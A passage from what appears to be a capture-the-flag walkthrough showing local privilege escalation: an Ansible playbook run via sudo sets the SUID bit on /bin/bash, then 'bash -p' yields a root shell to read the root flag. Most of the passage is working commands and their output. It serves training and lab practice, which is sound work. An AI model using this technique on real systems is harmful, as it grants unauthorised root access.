 First we create a yaml config which gives bash the suid bit on the target machine.

`sm.yml`
```yml
---
- name: "whatever"
  hosts: localhost
  connection: local
  tasks:
    - name: "whatever"
      shell: "chmod +s /bin/bash"
      register: "output"
```

Then we run `ansible-playbook` on the file with sudo.

```
-bash-5.0$ sudo /usr/bin/ansible-playbook ./sm.yml
[{% raw %}WARNING{% endraw %}]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'

PLAY [whatever] ****************************************************************************************************************************************************************************************************************************

TASK [Gathering Facts] *********************************************************************************************************************************************************************************************************************
ok: [localhost]

TASK [whatever] ****************************************************************************************************************************************************************************************************************************
[{% raw %}WARNING{% endraw %}]: Consider using the file module with mode rather than running 'chmod'.  If you need to use command because file is insufficient you can add 'warn: false' to this command task or set 'command_warnings=False' in ansible.cfg to
get rid of this message.
changed: [localhost]

PLAY RECAP *********************************************************************************************************************************************************************************************************************************
localhost                  : ok=2    changed=1    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0

```

Checking bash again we see that it has now the suid bit set.

```
-bash-5.0$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```

Which means we can simply drop in a rootshell and read the flag.

```
-bash-5.0$ /bin/bash -p
bash-5.0# id
uid=1000(luis) gid=1000(luis) euid=0(root) egid=0(root) groups=0(root),1000(luis)
bash-5.0# wc -c /root/root.txt
```
